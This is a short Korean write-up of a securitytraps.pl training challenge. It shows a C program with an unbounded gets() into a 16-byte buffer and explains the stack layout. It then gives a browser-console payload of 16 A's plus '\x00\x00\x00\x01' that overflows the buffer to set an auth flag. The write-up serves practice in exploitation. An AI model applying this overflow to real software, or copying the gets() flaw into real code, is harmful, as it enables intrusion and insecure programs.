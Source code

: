 # [securitytraps.pl] Exploits/Riddles Training



```c
Training
Here is a piece of code:

int main(int argc, char **argv)
{
  unsigned char auth = 0;
  char pass[16];
  gets(pass);
  if(validate(pass)) auth = 1;
  puts(auth==1?solution():"Bad password!");
  return 0;
}

Input: 
 Run!
Output: Bad password!
Segmentation fault
```

간단한 bof 문제이다. validate를 모르기 때문에, `auth`를 1로 만들기 위해서는 gets 함수에서 덮어쓰는 방법밖에 없을 것이다.

스택의 상황은 다음과 같다.

|        stack        |
| :-----------------: |
|     pass[16]...     |
| 0 \| 0 \| 0 \| auth |
|         ebp         |
|         ret         |

`auth`가 unsigned char으로 선언되어 있으므로 앞 공간들을 0으로 채워야 한다.

```js
> document.getElementById('f')[0].value = 'AAAAAAAAAAAAAAAA'+'\x00\x00\x00\x01'
> document.getElementById('f').submit()
```

